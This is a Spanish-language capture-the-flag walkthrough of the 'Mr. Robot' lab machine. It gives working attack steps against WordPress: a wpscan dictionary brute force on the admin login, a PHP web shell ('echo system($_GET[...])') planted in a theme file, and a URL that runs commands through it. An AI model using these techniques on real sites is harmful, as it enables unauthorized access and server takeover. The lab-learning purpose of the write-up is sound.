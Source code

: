 ![[zzzzzz/Mr.Robot/Pasted image 20230626174110.png]]
**El escaneo de directorios dio varios resultados.**
![[zzzzzz/Mr.Robot/Pasted image 20230626174126.png]]
http://192.168.100.167/image
![[zzzzzz/Mr.Robot/Pasted image 20230626174137.png]]

http://192.168.100.167/wp-login.php
![[zzzzzz/Mr.Robot/Pasted image 20230626174149.png]]

http://192.168.100.167/robots
**key-1-of-3.txt**
![[zzzzzz/Mr.Robot/Pasted image 20230626174220.png]]

**http://192.168.100.167/key-1-of-3.txt 073403c8a58alf80d943455fb30724b9**
http://192.168.100.167/fsocity.dic
![[zzzzzz/Mr.Robot/Pasted image 20230626174310.png]]

nano fsocity.dic―es un Diccionario que se utilizara después.
_**sudo wpscan --url**_ [_**http://192.168.100.167**_](http://192.168.100.167)_**--passwords /home/valente/Desktop/fsocity.dic --usernames elliot**_ es un escaneo de seguridad para una instalación de WordPress en la dirección IP 192.168.100.167. La herramienta wpscan intentará iniciar sesión en WordPress

![[zzzzzz/Mr.Robot/Pasted image 20230626174356.png]]

"sudo" se utiliza para ejecutar el comando con privilegios de administrador "--url [http://192.168.100.167](http://192.168.100.167/)" especifica la dirección IP o URL de la instalación de WordPress que se va a escanear "--passwords /home/valente/Desktop/fsocity.dic" especifica la ubicación del archivo de contraseñas que se utilizará para el escaneo **"diccionario"** "--usernames elliot" especifica el nombre de usuario que se utilizará para el escaneo. En este caso, solo se especifica un nombre de usuario, pero en general, se pueden especificar múltiples nombres de usuario.
![[zzzzzz/Mr.Robot/Pasted image 20230626174414.png]]

Utilizando la contraseña obtenida con wpcan entramos "elliot/ER28-0652"
Navegando un poco en el sitio, nos encontraremos eventualmente con un archivo php editable que en este caso es "author-bio.php
![[zzzzzz/Mr.Robot/Pasted image 20230626174450.png]]

con los permisos que tiene el usuario elliot inyectaremos un comando en el php agregando _**echo system($_GET['guts']);**_―La vulnerabilidad ocurre cuando el código PHP toma una entrada sin validar de un usuario y la pasa a la función system para su ejecución. Esto permite a un atacante inyectar comandos maliciosos en el servidor y ejecutarlos con los permisos del usuario que ejecuta el servidor web. **"guardamos"**

http://192.168.100.167/wp-content/themes/twentyfifteen/author-bio.php?guts=ls

![[zzzzzz/Mr.Robot/Pasted image 20230626174516.png]]

on esta consulta envía una petición HTTP GET a la URL "[http://192.168.100.167/wp-content/themes/twentyfifteen/author-bio.php](http://192.168.100.167/wp-content/themes/twentyfifteen/author-bio.php)" con un parámetro de consulta "guts=ls" el servidor web en la dirección IP 192.168.100.167 es vulnerable a inyección de código bajo la variable guts.
